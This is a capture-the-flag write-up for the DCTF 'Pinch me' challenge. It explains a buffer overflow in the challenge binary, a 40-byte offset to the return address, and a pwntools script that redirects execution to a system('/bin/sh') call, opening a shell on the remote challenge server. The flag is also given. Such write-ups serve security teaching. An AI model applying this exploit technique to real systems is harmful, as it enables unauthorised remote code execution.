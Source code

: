 # Pinch me

## Description

This should be easy!

`nc dctf1-chall-pinch-me.westeurope.azurecontainer.io 7480`

[pinch_me](pinch_me)

## Solution

First step let's decompile the binary with Ghidra. In the `main` function (the binary is not stripped) we can easily find the function `vuln` and after a brief looking it was easy to spot the buffer overflow vulnerability: an `fgets` writes 100 bytes of input in an array of 24 bytes.

![img1](img/img1.png)

How many bytes we need to give to the `fgets` in order to hit the return address? Let's open up the binary with GDB and using an older trick let's give an input like `AAAABBBBCCCCDDDD...`, now we can inspect the memory and after the `RET` instruction we can see that the process try to return to address `0xKKKK`, so we have find the offset of the return address: 40.

![img2](img/img2.png)

The next step is to rewrite the return address with somethings interesting to get the control of the remote machine.

```
00401190: 48 89 c7                   MOV        RDI,RAX
00401193: e8 c8 fe ff ff             CALL       fgets 
00401198: 81 7d f8 de c0 37 13       CMP        dword ptr [RBP + local_10], 0x1337c0de
0040119f: 75 0e                      JNZ        LAB_004011af
004011a1: 48 8d 3d 9f 0e 00 00       LEA        RDI, [0x402047] = "/bin/sh"
004011a8: e8 93 fe ff ff             CALL       system     
004011ad: eb 23                      JMP        LAB_004011d2
```

We need to jump not at the `call system` address, cause we don't have the right parameter in `RDI`, so I try to jump one instruction before, this ensure to load the address of `/bin/sh` into the `RDI` register. 

We can improve the script by inserting a rop-chian jump to `0x4011a1` without any parameter:

```python
from pwn import *

offset = 40
sysload = 0x4011a1

context.arch = 'amd64'
elf = ELF('./pinch_me')
p = remote('dctf1-chall-pinch-me.westeurope.azurecontainer.io', 7480)

rop = ROP(elf)
rop.call(p64(sysload), [])

payload = [
	b"A" * offset,
	rop.chain()
]
payload = b"".join(payload)

log.info(f"{p.recvline()}") # puts("Is this a real life, or is it just a fanta sea?");
p.sendline(payload)					# send our rop-chain
log.info(f"{p.recvline()}") # puts("Am I dreaming?");
p.interactive()
```

![img3](img/img3.png)

#### **FLAG >>** `` dctf{y0u_kn0w_wh4t_15_h4pp3n1ng_b75?}

